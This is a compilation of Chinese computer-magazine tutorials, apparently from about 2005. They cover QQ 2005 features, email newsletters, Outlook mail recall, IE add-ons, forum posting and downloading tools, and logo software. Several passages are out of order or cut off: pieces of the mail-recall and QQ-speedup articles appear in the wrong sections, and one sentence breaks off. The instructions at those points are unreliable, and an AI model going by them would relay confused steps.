第二步：在出现的“创建邮件列表”页面中根据提示输入必要的信息，比如：名称（相当于你杂志的名字，所以一定要吸引人，否则很难吸引别人的注意）、类型、列表介绍（很重要，写得好才能吸引更多人来订阅）、发行周期等，其中“订阅方式”有三个选择，在初期建议选择“公开”。如果你不明白某个选项，则可单击后面的“Help”链接查看具体说明。表格填写完成后单击“确定”即可（见图1）。
第三步：你可以在登录后选择左侧的“用户管理中心→我创办的邮件列表”，选中右侧创建的邮件列表项，然后单击“管理选中的列表”，这样在左侧会出现“邮件列表功能”，单击其中的“在线发信”可发送你的邮件列表。不过，这种方法既不简单，制作出来的列表也不个性化，所以推荐使用希网提供的客户端软件——“希网电子杂志编辑系统”（下载地址：http://www.cn99.com/listedit/listedit.zip）。
第四步：下载并安装“希网电子杂志编辑系统”，启动后你会发现其中已经内置了一些列表示例，如果你对网页制作一窍不通，则可直接利用某个示例修改为自己邮件列表的模板。首先右击“邮件列表项目管理器”，在弹出菜单中选择“创建电子刊物组”，接着将其命名为你前面申请时填写的名称，比如：电脑操作秘技偷偷报。这样会弹出“组属性”窗口，一般只需按照第二步填写的内容完成“列表代码”、“列表”密码即可(见图2)。
第五步：关闭“希网电子杂志编辑系统”，然后进入其安装目录(一般为“C:\Program Files\cn99\ListEdit\data\projects”)，在这里有所有邮件列表的数据文件夹，如果你比较喜欢“报刊文摘”样式，则可进入“报刊文摘 - 示例”文件夹，将其中除default.ini、default.usr外的文件复制到你的邮件列表文件夹，比如“电脑操作秘技偷偷报”。
第六步：用网页编辑软件(推荐使用FrontPage)打开刚才复制过来的Default.htm文件进行修改，比如：将页面最上方报刊文摘的图片替换成你制作的图片，或者直接删除它改成文字。右击“各期报刊”并选择“超级链接属性”，在弹出窗口中将“地址”最后的“listname=bkwz”改为“listname=列表代码”(比如:listname=flp2005)。而“《报刊文摘》主页”、“更多新闻”则可用同样方便将地址改为你的网站URL。
第七步：打开“希网电子杂志编辑系统”，右击你的邮件列表项(比如：电脑操作秘技偷偷报)并选择“新建文章”，接着在右侧的“数据”选项卡中按 Ctrl + A 组合键打开“编辑文章列表”窗口，然后你就可以开始输入邮件列表的第一篇文章了(请尝试在其中加入图片、链接、修改文字属性等)。完成输入后先按下工具栏的“保存文章”按钮进行保存。接着进入“预览”选项卡查看，没有问题则可回到“数据”选项卡继续按 Ctrl + A 组合键输入新的文章。
第八步：所有文章输入完成并预览无误后，就可以将你的邮件列表发送给订阅用户了。单击工具栏中的“发送文章”按钮会打开如图4所示的窗口，在其中输入文章标题、检验密码后单击“开始发送”按钮即可完成发送(见图4)。现在打开“http://www.cn99.com/cgi-bin/getlsts?listname=列表代码”即可查看到你的邮件列表了。

**小提示**

前期你可能1个订阅读者都没有，不要担心，因为许多人会通过希网主页看到你已经发布的邮件列表并进行订阅的。当然如果你已经拥有了一些邮件地址，也可以按照上面第三步进入“邮件列表功能→批量订阅”将邮件地址添加到你的订阅名单中。如果你有自己的网站，则可进入“邮件列表功能→获取订阅代码”，然后将生成的代码添加到网站的首页。这个代码也能用在论坛中的签名、邮件等，总之不要忘记任何一个宣传和订阅的机会。当然，要想自己的订阅读者多，邮件列表内容才是最关键的！

(ABC)

## 新QQ新功能初体验

QQ新版本2005 Beta1于近日发布，笔者于第一时间测试了QQ新版本的新功能，感觉本次新版本改动不小（下载地址:http://im.qq.com/qq/mo.shtml?/download/qqdl.shtml）。

### XP风格的新界面

登录后第一感觉就是界面清新了很多(见图1)，整体布局就好像Windows XP下的开始菜单一样。另外，好友个性签名已经被虚化，这样就不容易将好友的昵称与签名弄混淆了。

在好友布局和排序方面，腾讯QQ还为好友列表中的头像提供了多种布局方式，比如将显示的大头像居左或居中排列，好友排序上也不是一成不变的了，在“排序显示”上选择按首字母还是按身份标识排序(见图2)。所谓身份标识，就是指会员靠前排列的方式。注意：要显示图2中的菜单，需要在头像和边框之间的位置点鼠标右键，否则不会出现图2中的菜单。

以往的QQ个人资料显示都不是很全，需要在一个一个标签中切换进行查看，新版本的QQ提供了一个叫做QQ身份证的功能，可以在一个界面里看到几乎所有个人相关信息(见图3)。

**小提示**

安装新版QQ后会在桌面生成一个QQ音乐的图标，双击启动后就进入了QQ Music界面。这就是一个免费的播放器，我们可以播放本地歌曲或花QQ币从网络上试听最新的歌曲。同时这个播放器也被集成在QQ主界面下方，而QQ搜索也被集成到了主界面中，还能通过动态龙虎榜查看最热门的搜索关键字。

### QQ通讯录——呼朋唤友好帮手

新版QQ提供了一个通讯录的功能，在主面板“我的好友”下方。它允许我们将QQ好友、Outlook联系人等地址信息批量导入到此。这样，通讯录真正实现随身带，我们就可以在不开启其他工具的前提下，轻松给朋友发邮件、发短信了。

**小提示**

为了保证隐私不被泄露，通讯录提供了单独设置密码功能，并且对本地数据与网络传输实现了加密。按照腾讯所说，今后我们只要拥有QQ通讯录就可以随时通过QQ、短信和电子邮件与朋友联系，不必再担心手机或者电话簿丢失了。

### 七嘴八舌侃大山

新版本QQ支持群聊功能，这个功能在SKYPE中就拥有。不过是首次引入到QQ中。实现方法很简单：只要在好友聊天窗口中选择“多人超级语音”，然后再选择群聊的好友即可。成功连接后大家就可以天南地北的聊天了。

提醒大家一下，要想成功建立群聊，会话需要参与者处于在线或离开状态，如果参与者隐身则不能参与到群聊会议中。

### 聊天记录更人性

这个功能是笔者感觉新版QQ最吸引人的。笔者原先和MM聊天时，每当要复制MM的话时，总是要先通过聊天记录把MM的话双击添加到自己的说话窗口中再进行编辑发送，非常麻烦。新版QQ容许我们直接在聊天记录中选中部分内容，直接复制粘贴。另外，在聊天记录中的表情信息再也不以编码的形式存在了，我们从聊天记录中直接能看到丰富直观的表情了，而且还可以通过即时聊天窗口下方的搜索功能快速查找聊天内容。

**小提示**

新版本的消息管理器也进行了更新，同样可以在消息管理器中直接看到表情符号，如果不习惯这种显示聊天记录的方式还可以通过右上角的按钮进行切换，切换回传统风格。

### 让人期待的Q-Zone

新版本QQ还提供了一个称为Q-Zone的功能，按照腾讯官方解释，它就是专属于用户自己的QQ个性空间，一套多功能个人主页系统。注册便可立即拥有个人网页、相册、家园、互动等专业动态功能，用户可以随心所欲更改空间装饰风格，轻轻松松建立个性主页，这不禁让人想起了MSN Spaces。不过，令人遗憾的是，截至发稿时，Q-Zone仍未对公众开放。

另外，新版本解除了会员或等级16以上的用户才可以上传自定义头像的限制，所有用户都可以上传自己的自定义头像了，但要想成功上传必须花费1个Q币。

新版QQ再次体现了QQ多功能统一的理念，将搜索、音乐与软件都集成在了一起，面向用户应用的元素也越来越多。但自身的问题也越来越暴露出来，内存占用越来越大，占用空间越来越多。不过目前网上已经出现了腾讯QQ 2005精简版，或许适合提倡节约的你，下载地址：http://count.skycn.com/softdownload.php?id=483&url=http://tj-http.skycn.net:8081/down/qlite.exe。

(Softer)

## 今晚 我要做新闻主播！

每天上网做什么？可能每个人都有不同的答案。但对于很多人来讲，最花费时间莫过于看新闻了。你可能经常上新浪、搜狐等门户网站看热点新闻，但上门户网站看新闻会有很多问题，比如：平时工作时间很紧张，不可能整天监视这些网站的内容，一旦有新的消息出现，不能保证你第一时间知道。这些网站的新闻大部分是人工编辑的，虽然内容丰富，但不能保证这些新闻能覆盖整个网络。比如一些专业信息只出现在专业网站上。

我们以前曾经介绍过很多RSS浏览器，一些门户网站也推出了自己的新闻浏览工具。但这里出现新的问题，网站自己推出的新闻浏览工具功能单一，而专业的RSS新闻阅读器设置起来又比较麻烦。今天我们给大家推荐一个适合初学者使用的新闻阅读工具。

### 实例：坐在家中的新闻主播

电视台的新闻主播从来不用到外面去采访，新闻就会源源不断地送到他手中。现在你也可以享受这样的快乐，让新闻主动、及时地送上门来。假设我是做计算机生意的，国际巨头IBM是我的大客户，我需要随时了解他们的消息，但平时没时间上网查看，则可以用网络猪来为我解决这个问题。

-   软件版本:3.0
-   软件大小:6.7MB
-   软件性质:免费软件
-   适用平台:Windows 9x/2000/XP
-   下载地址:http://pig.zhongsou.com

第一步：首先下载网络猪，安装后在主界面注册一个用户，然后登录进入。注意：如果你没有注册，仍然能以游客身份登录并使用大多数功能。

第二步：进入主界面，点击“专题定制”，在我的专题列表中按“新建”按钮，出现菜单栏后，选择“新建新闻专题”（见图1），然后按下“高级模式”。

第三步：这是关键步骤，网络猪会根据你的关键词直接从互联网上抓取、收集、编辑、分类你要的新闻，所以关键词一定要简明扼要，否则会影响质量和数量。比如，我想随时了解IBM笔记本的动态，可以这样设置：专题名称为“IBM”，关键词为“IBM+笔记本”（IBM产品线比较多，这里只关注一类）（见图2）。

第四步：专题定制完成之后，右侧就会立刻显示出相关的新闻信息（见图3）。据测试，新闻显示的速度，比在一些搜索引擎中搜索的速度要快很多。如果你觉得全屏显示太占地方，可以在网络猪的“查看->系统状态”中选择“顶天”或“立地”，让软件缩小成为一个工具栏，这样，你就能边做自己的事，边等候最新的消息即时送达了。

### Just Do It

你是一位应届高考考生，而英文是你的弱项，想时刻关注英语方面的试题。如何让网络猪帮你忙呢？

## 邮件发出去之后，我后悔了……

这日，笔者一哥们苦兮兮地找我帮忙，原来，他酒醉后一时性起，写了封E-mail给她的女友，要求对方分手，酒醒之后才恍然大悟。无奈邮件已经发出，覆水难收，只好向我求助。我面露难色，对这位哥们说道：“发出去的邮件，犹如泼出去的水，这个问题不好解决啊！让我试试看……”

### 招式一:利用Outlook和OE自带的“招魂术”

#### 1.Outlook用户

如果你和对方都使用Outlook发送、接收邮件，而你们所使用的邮件服务器都是Microsoft Exchange Server，可以使用Outlook中自带的“邮件召回”功能，该功能允许你召回已经发出的邮件。

第一步：运行Outlook，切换到“邮件”标签，在“已发送邮件”文件夹中找到要撤回或替换的邮件，依次选择“动作->撤回该邮件”菜单。

第二步：如果只想召回这封已经发出的邮件，请勾选“删除该邮件的未读副本”，勾选“告诉我对每个收件人的撤回操作是成功还是失败”则可以收到一个操作是否成功的提示，设置完毕后单击“确定”即可（见图2）。不过，做了这样的操作后，不要以为就万事大吉了，我们分两种情况来介绍可能产生的结果。

情况一：查看收件人在Outlook中是否做了如下设置：选择“工具->选项”菜单，切换到“首选参数”标签，单击“电子邮件选项”按钮，在打开的窗口中单击“跟踪选项”，勾选“在到达时处理要求和响应”（见图3）。

如果对方没有将该邮件接收到自己的硬盘，该邮件会被成功撤回；如果对方将该邮件接收到了Outlook收件箱，但没有阅读它，对方将收到一个提示信息，表明你已经删除了该邮件，对方将无法阅读该邮件；如果已经阅读了该邮件，他也会收到一个提示信息，表明你试图删除该邮件。

情况二：“在到达时处理要求和响应”一项处于未勾选状态，或收件人在Outlook中设置了邮件规则，并按照此规则将你发送到的邮件移动到了其他文件夹中。

如果对方没有将该邮件接收到自己的硬盘，该邮件会被成功撤回；如果对方已经将该邮件接收到了Outlook收件箱，不管是否已经阅读它，撤回操作都将失败。也就是说，如果对方阅读该邮件则可以顺利阅读，但依然会收到一个试图删除该邮件的提示。

> 小提示
> 我的邮件服务器是Exchange Server吗？
> 首先在Foxmail、Outlook Express等邮件客户端中找到一封你之前收到的对方发送过来的邮件，查看其邮件头信息（以Foxmail为例，其查看方法为：打开邮件后，选择“邮件->查看原始信息”菜单），如果看到其中包含类似“Received: from...by mx4 (Coremail) with...x-mimeole: Produced By Microsoft Exchange...”字段，则表示其邮件服务器使用的是Microsoft Exchange Server(见图1)。

#### 2.Outlook Express

对于双方都使用Outlook Express，且双方使用的邮件服务器都是Microsoft Exchange Server的情况，也可以使用Outlook Express中的“邮件召回”功能，不过前提是对方的Outlook Express尚未将邮件接收到硬盘。其具体撤回方法为：

在Outlook Express中切换到“已发送的邮件”标签，打开想要召回的邮件，选择“工具->撤回该邮件”菜单，这时对该邮件有两种处理方法：想要召回，则单击“删除该邮件的未读副本”；想用其他邮件代替，则单击“删除该邮件并用新邮件替换”。

## 瞧！IE摇身变Maxthon

现在许多朋友都使用Maxthon、Green Browser等多窗口的浏览器，它们最吸引人的地方就是在同一窗口可以以标签形式打开多个网页，不像IE那样每个窗口都是独立的，同时这些浏览器还提供有弹出窗口、广告内容过滤等辅助功能。今天我们就为IE也武装一番，让它轻松拥有像Maxthon一样的多窗口、广告过滤等功能。

## 为IE增加多窗口、过滤及隐私保护

首先我们要安装MereSurfer，它是一款IE增强软件，安装后就会使IE立即实现标签式的多窗口功能，同时还有弹出窗口、广告过滤，隐私保护等功能。

- MereSurfer 2005小档案
软件版本:10.7
软件大小:874KB
软件性质:免费软件
适用平台:Windows 9x/2000/XP
下载地址:http://www.download.com/MereSurfer-2005-All-in-IE-Edition/3000-7786-4-10376324.html
软件备注:开机以及打开IE时会提示下载专业版

第一步:安装MereSurfer后启动IE，在工具栏会出现如图1所示的软件按钮，首先按下第三个按钮打开设置窗口。



第二步:在“Pop-Up Blocker”（弹出窗口阻拦）中按图2（以后在浏览过程中，所有弹出窗口都将被过滤，按Ctrl键会临时允许弹出窗口）进行设置。



第三步:按着进入“Ad Remover”（去除广告）选项卡，勾选“Enable Ad Remover”。这里已经内置了一些网页广告的URL，一般不需特别设置。

第四步:进入“Tabbed Window”（标签窗口）选项卡，勾选“Enable Tabbed Windows”（开始标签窗口），如果你比较习惯标签放置在窗口上方，则应勾选“Place the tabs on the top of the window”。

小提示
“Tracks Eraser”（痕迹擦除）、“Trusted domains”（信任域）这两个选项卡一般不用特别设置，前者主要用于设置是否在浏览结束后将你的个人记录擦除，比如Cookies、缓存文件、历史文件等，后者为了设置信任的网站。

好了，现在让我们打开http://www.cfan.com.cn网站，进入后再按下Ctrl键的同时点击其中一些链接，是不是IE也变成多窗口浏览器了（见图3）？另外，虽然MereSurfer已内置了大部分广告网站，但相信你肯定在浏览中还会遇到不少漏网之鱼，此时可以直接在网页中右击广告Banner等，在IE右键菜单中会出现“Add to banner block list”（添加到banner过滤列表中），选中它即可将广告Banner收入过滤列表，下次就不会有它再烦你啦。



## 这些插件你不能不装

| 名称 | 功能 | 下载地址 |
| --- | --- | --- |
| Exif Show | 在IE中可以直接查看网页显示照片的Exif信息 | http://nj.onlinedown.net/soft/19388.htm |
| Google网页快照插件 | 帮助你查看一些无法访问的Google网页快照 | http://nj.onlinedown.net/soft/16038.htm |
| iMarkup | 给网页做标记，当你开启曾经做过标记的网页时，iMarkup会自动显示出标记 | http://download.pchome.net/internet/browser/plugin/2177.html |
| Microgarden WebTools | 给IE增加多窗口功能 | http://download.pchome.net/internet/browser/plugin/15617.html |
| Google Toolbar | 不必登录网站，直接用Google搜索 | http://download.pchome.net/internet/browser/plugin/14930.html |
| Al RoboForm | 在网上要填的密码太多了，请它帮你自动填写吧 | http://download.pchome.net/internet/browser/plugin/2164.html |

注：如果你想查找更多IE插件，可以登录以下网址查看：
http://www.brothersoft.com/Internet_Browser_Plug-ins_Download_List_1.html
http://download.pchome.net/internet/browser/plugin/

(ABC)

## 胖企鹅，你给我跑快点！

每当启动QQ后，在登录成功前，你就会发现总很长一段等待时间。这段时间QQ在干什么？没人知道，但根据以往经验，为了提高速度，我们总要牺牲一些东西，而使用本文介绍的方法，牺牲的东西微不足道，赶快试试吧！

然原来你一直启动了自动更新，但是QQ从没有自动为你升级过。反倒是腾讯网站在频繁地升级软件。既然大家都是去网站下载，自动更新就省了吧！

## 第一招：去除面板赘肉

我们要把QQ面板上多余的选项都“隐藏”掉：依次进入“菜单→个人设置→系统设置→面板设置→系统面板”，把这里的选项全部都隐藏掉（见图1）。



小提示
留下一两个对你非常有用的面板（如网络硬盘）也未尝不可。

## 第二招：抛弃从未使用过的“自动更新”

关闭自动更新功能：依次进入“菜单→个人设置→系统设置→自动更新设置”，选择“不启动自动更新”选项。你注意到没有，虽然

## 第三招：网络环境你少管！

QQ有一个自动检测网络状态的功能，网络从断开到恢复后可以自动上线。如果你不在意这个功能，完全可以去除！ 依次进入“菜单→个人设置→系统设置→基本设置”，去掉“自动检测网络状态”的选择状态（这个是默认选中的）。



## 第四招：让胖企鹅轻装上阵

这里，我们要使用默认的QQ皮肤。依次进入“菜单→更换皮肤”，选择“标准界面”即可（见图2）。

好了，经过上面的设置后，重新登录一下QQ，你会发现：登录速度有了明显的改善！经过一番修改之后，QQ软件占用的系统资源没有明显降低，但登录速度有很大提高！

除未读副本并用新邮件替换”，单击“确定”，然后撰写新邮件并发送即可。

## 招式二：QQ邮件中的删除功能

如果利用QQ邮箱给对方发送邮件，想要召回就相对比较简单了，只要对方尚未开启QQ邮箱功能，召回操作都能成功。

首先在QQ中选择“菜单→工具→QQ邮箱客户端”打开QQ邮件，接下来选择“工具→远程邮箱管理”菜单或者按下F12热键，切换到“待收取邮件夹”，这时候我们可以看到自己发送出去的那封邮件，选中后右击，选择“删除”菜单即可（见图4）。



（四川 逍遥小小）

(LX)

## 瞬间成为论坛高手

去论坛“灌水”是网虫们的必修课。不过，若要成为论坛高手，可不是一件容易的事情。本文为你奉上几个成为论坛高手的“必杀技”，有了这些技能，你就能很快从“小虾米”转化成“大侠”了！

- 网络驿站小档案
软件版本:2.5
软件大小:847KB
软件性质:共享软件
适用平台:Windows 98/2000/XP
下载地址:http://www.onlinedown.net/soft/37423.html

软件帮你成为贴图高手
论坛管理者为了减轻论坛服务器的负担，常常会对上传到论坛的图片做诸多的限制，如限制大小、格式、数量等。要想随心所欲地上传图片，必须通过变通办法，“网络驿站”可以实现这一目的。用户可以通过这个软件把图片或其他文件上传到免费空间中，然后将生成的图片链接粘贴到论坛中，这样就可以绕过对图片的限制了。下面我们一起来看看如何实现这一操作过程。

- 第一步：选择服务器
软件已经内置了10多个免费空间，这些空间全部不用注册，直接就可以使用，而且没有空间限制。单击“可选服务器”后的下拉按钮，就会列出所有的内置服务器（见图1），选择一个即可。需要注意的是，每个空间支持的文件格式不同，所以上传不同格式的文件要选择合适的服务器。当选中某个空间后，会在“提示信息”栏中显示出该空间支持的文件格式。

第二步：选定要上传的图片
单击“选择图片”按钮，就会打开文件选择框，选中要上传的图片即可。如果上传的图片较多且很分散，可以采取添加目录的方法，先将所有待上传的图片放到一个目录中，然后单击“添加目录”，选中这个目录即可。所有被选定的文件都会显示在软件主界面中间的文件列表中，选中某图片，将会在“图片预览”栏中显示图片。

第三步：设置上传线程
根据上传图片的大小与数量设置好线程数，一般来说，当图片小于300KB时，尽量不要超过2个线程，否则会因为上传速度过快导致服务器出错。另外，过多的线程会占用大量的带宽，影响上网速度。设置完毕就可以上传图片了。

第四步：复制链接代码
选中要进行操作的图片文件，然后单击“复制代码”旁的下拉按钮，从中选择UBB代码、URL地址、HTML代码或超链接（见图2），就会将相应的代码复制到粘贴板中。接下来，你就可以将这些代码粘贴到论坛中了。



小提示
软件支持在线更新空间服务器，单击“工具”菜单下的“网络更新”，就会弹出数据库更新窗口，就可以进行在线更新操作了。



## 发帖高手 一学就会

在论坛发帖子谁都会，可你能快速将黑色文字变成多种颜色的文字，甚至卡通字体吗？GO！我来告诉你。

## 1.彩色字体

首先在输入区键入文字，然后单击工具栏按钮旁的下拉按钮，在弹出的菜单中将“字色随机”项打勾，将“不用彩字”项打勾。单击“转换”按钮，即可将黑色的文字随机转换成彩色了（见图3）。



再单击按钮旁的下拉按钮，选择“复制为论坛代码”项，会弹出要求输入彩字存放网址的窗口，按默认设置即可。这样，论坛代码就被保存到剪贴板中了，直接粘贴到论坛的文字编辑区就OK了。

## 搞怪高手

如果你的签名图片中显示来看帖人的IP地址、系统信息甚至地理位置，相信他一定会很惊讶的。这种方法的原理是：网站对每个访问者的系统信息、IP地址进行检测，然后根据IP数据库中的资料搜索出对应的地理位置，再写入生成的图片中。这样，每个人都会在图片中看到自己的地址及系统信息（见图5）。



现在很多网站提供这种服务，比如http://www.happybobby.com/ipsign.asp这个网站，所需要做的就是将链接代码粘贴到论坛的个人资料签名中。有些网站提供了雷傲和动网论坛的UBB代码和嵌入网页的Html代码（见图6），选择合适代码，并将它粘贴到论坛的个人资料签名中，这样，当你发帖子时就会自动加上显示IP图片签名。



```
ubb
[img]http://ip.holit.com/sign.png[/img]

html

```

## 2.卡通文字

除了能将文字变为多种颜色外，还可以通过软件将文字变成具有卡通效果的Q版文字，这个软件就是“易我秀”，只要你访问的论坛支持贴图功能，那么使用“易我秀”就可以转换成卡通文字（下载地址：http://assistant.eoshow.com/）。使用方法很简单，这里就不过多介绍了（见图4）。



（山东 陈俊杰）

## 一秒钟做出网页来

在建立网站时，常常需要建立一个简单网页用来做测试等工作。网页内容要求很简单：只需包含一些文字，包括常规的< HTML >、< HEAD >等标志就行了。用Dreamweaver等工具显然大材小用，用记事本编写又太麻烦，相对简单的办法是去找一个网页存下来，再删除多余部分。这里介绍一个超简单的办法。

- 第一步：打开Maxthon（不能用IE），并在“Maxthon选项→起始页→打开主页”中设置为“使用空白页”。

第二步：这时地址栏中应该显示的是“about:blank”，将“blank”替换成其他内容，然后回车。看！输入的文字进入网页了（见图1）！

第三步：将网页“另存为”一个HTML文件即可。查看一下源代码，常规信息都有（见图2）。





```
html
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.0 Transitional//EN">
<HTML>
<HEAD><TITLE> CFan电脑爱好者 </TITLE>
<META http-equiv=Content-Type content="text/html; charset=unicode">
<META content="MSHTML 6.00.2900.2804" name=GENERATOR></HEAD>
<BODY>CFan电脑爱好者</BODY>
</HTML>
```

你知道吗
★熟悉的用户一般都见到过类似“Web页不可脱机使用”这样的提示，还有“取消操作”、“警告：网页已经过期”等，其实这些页面是系统早已定制好的，如果你是一位细心人，会发现对应不同提示语，在浏览器地址栏中就会出现不同浏览地址，这些浏览地址的格式为：about:xxxxxxx，其实about是除http、ftp、mailto、gopher外的一个特殊协议，浏览器一旦接收到about协议的访问请求时，就会自动调用系统事先设置好的提示网页。
★妙用about打造中文域名：打开注册表编辑器，找到[HKEY_LOCAL_MACHINE\Software\Microsoft\Internet Explorer\AboutURLs]，在右侧窗格新建一个字符串值，接着将其名字更改为要指定的网址名字，比如：CFAN，接着双击它并将其值设置为：http://www.cfan.com.cn。现在打开IE，在地址栏中键入：about:CFAN，回车就能快速访问“电脑爱好者”的网站了。

(PF)

## 爱“拼”才会赢 五分钟完成网站Logo

Logo是网站的标志，是一张亮丽的网站名片。但要想做好它并不是件容易事，你不但需要会使用Photoshop、Firework等图像处理软件，而且还要有相当强的美工基础。但现在你可以告别以前的尴尬时光了，有了AAA-Logo，只需像小孩子搭积木一样，几分钟就能制作出精美的网站Logo！



- AAA LOGO小档案
- 软件版本:1.20
- 软件大小:5311KB
- 软件性质:共享软件
- 运行平台:Windows 2000/NT/XP/2003
- 下载地址:http://www.onlinedown.net/soft/33811.htm
- 汉化文件下载地址:http://www.onlinedown.net/soft/37037.htm
- 软件备注:汉化文件不能单独安装使用，请先安装英文原版再使用汉化文件。免费版本在一些字体、特效方面有功能限制，但现有功能已经足够吸引人！

## 实战：五大步“拖”出精美网站Logo

第一步：安装并启动AAA-Logo，首先出现的是一个模板选择界面，共有108种模板可供用户选择（见图1），可以通过“Next Page”按钮进行翻页。初期模板虽然简单，但都比较精美，任选一种模板即可，如果不喜欢这些模板也没有关系，这并不会影响到我们后面的操作。点击后进入到AAA-Logo的主界面。



第二步：如图2所示，窗口最上方是菜单栏，紧接着的是工具栏，下部左侧上方是“组件”预览区，中部是“标志物体库”，里面有2000多种图案供用户选择，通过这些图案的组合搭配，用户就可以快速生成属于自己的网站Logo，下方是“文字输入文本框”，供用户输入文字用。在窗口下部右侧是Logo的实时预览图，最终生成的网站Logo跟这里显示的一模一样。



小提示
使用中发现，Logo中的文字不能使用中文，否则会出现乱码。好在网页Logo用英文和图形较多，影响不大。

第三步：删除多余组件，替换原有组件。在右侧Logo预览区选中不需要的组件，按Ctrl + R组合键即可删除。也可在选中后，通过组件库，点选自己喜爱的组件，就能将原有组件替换掉了。

第四步：增加新组件。点击“物体→新建图像”命令，在弹出的“新建物体”对话框中，点选“从图库选择图形”按钮，如图3所示。接着会弹出图库窗口，里面有2000多个图形标志，你可以通过“上一页”、“下一页”翻页选择自己喜爱的图形插入到Logo中。重复以上步骤，将多个图形标志插入其中。

小提示
你还可以调节组件的大小、亮度、渐变度等属性，修改文字组件，对文字效果、颜色、渐变、变形等属性进行调整，方法和一般图形软件非常类似，这里不再赘述。

第五步：最后，输出生成Logo。所有工作完毕后，可以点击“文件→输出标志图像”命令，在弹出对话框中，选择一种合适的格式，点“保存”按钮即可。



只有商业版本才能成功输出图片，不过对于要求不高的朋友来说，最后输出的格式已经不重要，我们只需要使用SnagIt等抓图工具，把最后的预览画面抓下来，就能放到网上使用了。



> 网络大补贴
★ 成就Logo大师必看的Logo制作宝典： http://www.37d21.com/zzcn/Article_Show.asp?ArticleID=831 可能是目前网上最全面的Logo制作专题了，想成为Logo制作高手的读者必读！
★ 国外精彩的Logo：想要做出精彩的Logo，先学习一下别人的经典作品吧！http://www.webjx.com/img/webjxcom20040720guowailogo1.rar 收集了200个国外优秀网站的Logo。
★ 做Logo还得有素材： http://www.99edu.net/weblogo/page_01.htm 收集了1290个Logo素材，推荐收藏。
★ PhotoShop制作Logo菜鸟教程： http://www.7880.com/Info/Article-406a2c60.html。
★ 学FireWorks制作动态Logo： http://www.netbei.com/Article/pic/art4/2004-09-18/20040918140605.html。
（金色铁锚）

## 论坛帖子随身带

泡论坛是不少菜鸟、老鸟每天的必修课。可是，对于没有足够时间在线的朋友来说，论坛上那么多好帖子放弃不看，实在是遗憾。有了“论坛抽水机”，所有帖子都可以随身携带了。这款软件不仅能批量下载论坛上的帖子，而且可以下载一些站点上的文件名有规律的文章。下载完成后，按照帖子编号保存到硬盘上，一般保存为HTML文件格式，可以使用IE打开观看。

- 论坛抽水机小档案
- 软件版本:1.9
- 软件大小:580KB
- 软件性质:免费软件
- 适用平台:Windows 9x/2000/XP
- 下载地址:http://www.filesee.com/bbsdown/bbsdown_setup.exe

## 两步设好“抽水点”

第一步：查找帖子。以下电脑爱好者论坛帖子为例，打开电脑爱好者论坛http://bbs.cfan.com.cn/，访问一个需要下载的帖子，比如：http://bbs.cfan.com.cn/index.php?showtopic=213324，213324是帖子编号，每个帖子都有一个一一对应的编号。几乎所有论坛的帖子都是按照数字顺序排列的，你可以找到上次最后看的帖子，假设这个帖子就是我们上次最后看的那个。

第二步：安装并启动“论坛抽水机”，在软件主界面“网址（主机）”中输入“bbs.cfan.com.cn”，“端口”中输入“80”，“路径及文件名”中输入“/index.php”，“变量参数名称”中输入“showtopic”，“变化步长”中输入“1”。假设我们打算看从21334开始的50个帖子，就在“开始值”中输入“21334”，“结束值”中输入“21384”，如图1所示。最后，在“存盘配置”中选择存盘位置，根据你的需要完成设置，单击“下载”，“论坛抽水机”开始工作。


当提示下载完成后，只要进入刚才设置的“存盘位置”文件夹中，就可以看到一个个HTM文件了，这就是我们要看的帖子，双击即可打开。

小提示
★ 软件主界面的“端口”一般是80，主要根据实际情况填写；“变化步长”是指帖子编号的间隔，比如是1，2，3……这样连续的编号之间的间隔为1，步长就是1；开始值和结束值指的是您想要下载的帖子编号范围，本例就是下载最新的50个帖子。
★ 保存下来的帖子不包括图片，好在论坛一般还是以文字为主。另外，虽然图片无法显示，但是图片下面的链接（如“回复”、“引用”等）还是可以使用的，只要你在网上，链接都可以直接使用（见图2）。

## 给“抽水机”加个“电门”

当输入好网站的各种属性后，按下主界面左下角的“保存配置”按钮，可以将当前的配置文件保存起来，留给今后使用。今后，只要在主界面单击“从配置文件中装载配置”框旁边的“浏览”按钮，打开一个对应的配置文件，单击“装载”，软件自动填写参数，单击“下载”开始工作。软件自带了一些论坛的配置文件，你也可以用文本编辑工具（如EmEditor）编辑一个INI文件，在 http://filesee.bbs.xilu.com/ 论坛上可以查到更多的现成的INI文件。

### 小提示

有些论坛必须登录才能下载，遇到这种情况，先登录论坛，找到需要下载的帖子页面。在软件主界面，勾选“需要登录才能下载”，其他方法同上。

## 特殊论坛特殊设置

有些论坛的帖子构成比较复杂，包含很多个参数。通常参数之间用“?”间隔，其中有的参数是固定的，用来表示子栏目。上例中没有固定参数，如果是有固定参数的帖子，比如帖子的URL形式为：http://bbs.xxxx.com.cn/forum/display.asp?aa=bbbbb&id=256，那么id（也就是256）是随着帖子的不同而变化，而aa则是个固定参数，它的值始终是bbbbb，因此这类帖子在下载时还需要在“固定参数名称1”框中输入“aa”，在“固定参数数值1”框中输入“bbbbb”。

## 实例：动网论坛抓帖方法

动网论坛是现在比较流行的论坛程序，它的帖子的形式通常是这样的：http://bbs.dvbbs.net/dispbbs.asp?boardID=1&ID=903122&page=1。其中boardID表示子栏目，page表示这个帖子的当前页，ID就是帖子编号了。遇到这类的帖子，我们就可以按照图3中方式填入参数即可。



Just Do It

其实，我们常用的下载工具FlashGet、Net Transport等软件也可以批量下载论坛帖子，只是步骤麻烦一些。试试看，在你没有“论坛抽水机”时，也许它们能帮你！

(四川 朱莉)

## 微软的“鸿门宴”——IE 7.0能给我们带来什么

早在去年上半年，微软就宣布“到Longhorn发布前不会再为IE提供升级”。然而今年二月份，微软却把这句话活生生给噎了回去，比尔·盖茨在RSA会议上宣布，IE 7.0测试版本将于今年夏天推出。如此一来，今夏诞生的IE 7.0将成为继Windows XP SP2后对IE进行的又一次大动作。尽管目前微软对IE 7.0的细节抱以一贯“守口如瓶”的姿态，不过我们在搜寻了一些蛛丝马迹后，依然可以为即将到来的IE 7.0画个素描。



## 安全第一 ——微软“天下无贼”的理想？

不知道从什么时候开始，“安全问题”成了微软的头等大事，也许这是微软的宿命吧。不管是已经发布的Windows XP SP2，还是尚在加紧赶制的Longhorn，微软设计师和代码编制者都在贯彻“性能为安全让路”的开发思路。IE 7.0无疑会在安全性方面大做文章，主要有下面一些看点：

-   IE 7.0仍将免费。
-   继Windows XP SP2后，安全防护模式将被再次完全重写；
-   IE 7.0中不会包含新版本的Outlook Express，新版OE会在Longhorn中出现。
